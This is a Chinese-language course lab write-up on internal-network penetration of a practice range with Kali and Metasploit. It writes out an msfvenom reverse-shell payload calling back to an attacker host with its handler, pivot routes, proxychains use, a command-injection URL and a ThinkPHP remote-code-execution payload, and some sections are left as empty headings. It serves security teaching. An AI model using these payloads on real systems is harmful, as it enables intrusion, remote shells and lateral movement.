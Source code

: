 # 网安实践：内网渗透和攻击

## 实验环境

* kali

* metasploit

## 实验步骤

### 步骤一 设立立足点并发现靶标2-3

1. 在攻击者主机上生成meterpreter.elf文件
` msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<攻击者主机IP> LPORT=<端口> -f elf > meterpreter.elf`
![](./pics/手动生成meterpretershell.png)

2. 上传
![](./pics/上传成功.png)

3. 在metasploit里设置如下并`run -j`等待
```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <攻击者主机IP>
set lport <端口>
run -j
```
注意，这里的IP和端口要和生成.elf文件时设置的一样

5. 在靶机里运行meterpreter.elf
![](./pics/进入容器下载文件并运行.png)

6. 返回到攻击者主机，可以看到连接成功
![](./pics/拿到meterpretershell.png)

7. 升级shell
![](./pics/升级会话窗口.png)

8. 查看route，arp， ipconfig
![](./pics/查看arp.png)
![](./pics/查看route.png)
![](./pics/ipconfig.png)

9. 设置pivot路由
![](./pics/添加pivot路由.png)

10. 扫描
![](./pics/扫描结果1.png)
扫描100%后查看存活的主机和服务，使用`hosts`和`services`
![](./pics/开放的主机和服务.png)

11. 设置代理
参照[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)和视频
![](./pics/socks代理.png)
![](./pics/查看1080端口服务开放情况.png)
`cat /etc/proxychains4.conf` 
确认有以下配置
![](./pics/修改proxychains配置.png)
并且配置浏览器代理
![](./pics/代理3.png)

12. 成功访问第一层
![](./pics/访问thinkphp.png)

### 步骤二 攻击新发现的靶机

#### nginx
nginx
1. 设置代理curl扫描到的IP
` proxychains curl http://192.170.84.2`
![](./pics/访问第二台主机.png)

2. 根据提示执行以下命令
`proxychains curl http://<目标IP>/index.php?cmd=ls%20/tmp`
![](./pics/第二个flag.png)

#### samba

1. 搜索可用攻击模块并选择合适的模块
`search semba type:exploit`

2. 设置options

3. 攻击

4. get flag
![](./pics/getflag3.png)

### 步骤三 设立pivot路由并发现靶标4-5

1. 查看第一层两台主机的ip

![](./pics/双网卡1.png)
可以看到192.170.84.4这一台机器有双网卡

2. 升级对应的shell
![](./pics/升级shell1.png)

3. 设置pivot路由
![](./pics/添加pivot路由3.png)

### 步骤四 攻击靶标4-5

#### weblogic

#### apache

### 步骤五 发现终点靶标

同样，ip a查看第二层靶机的网卡，发现双网卡
![](./pics/发现双网卡.png)
升级shell
`sessions -u <>`
进入新启动的shell
`sessions -i <>`
设置pivot路由
`run autoroute -s 10,10,10,0/24`
![](./pics/设置pivot路由.png)
![](./pics/设置pivot路由成功.png)
扫描发现终点靶标
![](./pics/发现终点靶标.png)

### 步骤六 攻击终点靶标

#### thinkphp

cve_2018_1002015
1. 浏览器访问以下网页，执行phpinfo()
`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=phpinfo&vars%5B1%5D%5B%5D=1`
![](./pics/phpinfo.png)
2. 执行系统命令
`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=ls%20/tmp`
![](./pics/第三个flag.png)

## 参考资料

[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)
